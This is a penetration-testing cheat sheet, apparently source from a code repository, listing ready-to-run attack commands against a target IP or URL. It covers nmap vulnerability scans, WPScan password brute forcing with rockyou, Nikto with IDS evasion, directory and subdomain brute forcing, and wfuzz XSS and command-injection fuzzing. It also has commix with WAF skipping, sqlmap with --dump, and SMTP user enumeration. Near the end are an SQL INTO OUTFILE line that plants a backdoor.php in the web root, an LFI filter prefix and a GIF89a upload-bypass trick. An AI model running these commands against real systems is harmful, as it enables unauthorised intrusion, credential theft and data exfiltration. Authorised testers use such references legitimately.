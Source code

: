 ### NMAP
nmap -p- -sT -sV -A $IP
nmap -p- -sC -sV $IP --open
nmap -p- --script=vuln $IP
### HTTP-Methods
nmap --script http-methods --script-args http-methods.url-path='/website' 
###  --script smb-enum-shares
sed IPs:
grep -oE '((1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.){3}(1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])' FILE

### WPScan & SSL
wpscan --url $URL --disable-tls-checks --enumerate p --enumerate t --enumerate u

#### WPScan Brute Forceing:
wpscan --url $URL --disable-tls-checks -U users -P /usr/share/wordlists/rockyou.txt

#### Aggressive Plugin Detection:
wpscan --url $URL --enumerate p --plugins-detection aggressive

### Nikto with SSL and Evasion
nikto --host $IP -ssl -evasion 1
SEE EVASION MODALITIES.

### dns_recon
dnsrecon –d yourdomain.com

### gobuster directory
gobuster dir -u $URL -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -k -t 30

#### gobuster files
gobuster dir -u $URL -w /opt/SecLists/Discovery/Web-Content/raft-medium-files.txt -k -t 30

#### gobuster for SubDomain brute forcing:
gobuster dns -d domain.org -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 30
"just make sure any DNS name you find resolves to an in-scope address before you test it"

### Extract IPs from a text file.
grep -o '[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}' nmapfile.txt

### Wfuzz XSS Fuzzing
wfuzz -c -z file,/opt/SecLists/Fuzzing/XSS/XSS-BruteLogic.txt "$URL"
wfuzz -c -z file,/opt/SecLists/Fuzzing/XSS/XSS-Jhaddix.txt "$URL"

#### COMMAND INJECTION WITH POST DATA
wfuzz -c -z file,/opt/SecLists/Fuzzing/command-injection-commix.txt -d "doi=FUZZ" "$URL"

#### Test for Paramter Existence!
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt "$URL"

#### AUTHENTICATED FUZZING DIRECTORIES:
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt --hc 404 -d "SESSIONID=value" "$URL"

#### AUTHENTICATED FILE FUZZING:
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-medium-files.txt --hc 404 -d "SESSIONID=value" "$URL"

#### FUZZ Directories:
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-directories.txt --hc 404 "$URL"

#### FUZZ FILES:
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"
|
LARGE WORDS:
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-words.txt --hc 404 "$URL"
|
USERS:
wfuzz -c -z file,/opt/SecLists/Usernames/top-usernames-shortlist.txt --hc 404,403 "$URL"


### Command Injection with commix, ssl, waf, random agent.
commix --url="https://supermegaleetultradomain.com?parameter=" --level=3 --force-ssl --skip-waf --random-agent

### SQLMap
sqlmap -u $URL --threads=2 --time-sec=10 --level=2 --risk=2 --technique=T --force-ssl
sqlmap -u $URL --threads=2 --time-sec=10 --level=4 --risk=3 --dump
/SecLists/Fuzzing/alphanum-case.txt

### Social Recon
theharvester -d domain.org -l 500 -b google

### Nmap HTTP-methods
nmap -p80,443 --script=http-methods  --script-args http-methods.url-path='/directory/goes/here'

### SMTP USER ENUM
smtp-user-enum -M VRFY -U /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -t $IP
smtp-user-enum -M EXPN -U /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -t $IP
smtp-user-enum -M RCPT -U /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -t $IP
smtp-user-enum -M EXPN -U /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -t $IP


### Command Execution Verification - [Ping check]
tcpdump -i any -c5 icmp

#Check Network
netdiscover /r 0.0.0.0/24

#INTO OUTFILE D00R
SELECT “” into outfile “/var/www/WEROOT/backdoor.php”;

LFI?
#PHP Filter Checks.
php://filter/convert.base64-encode/resource=

UPLOAD IMAGE?
GIF89a1
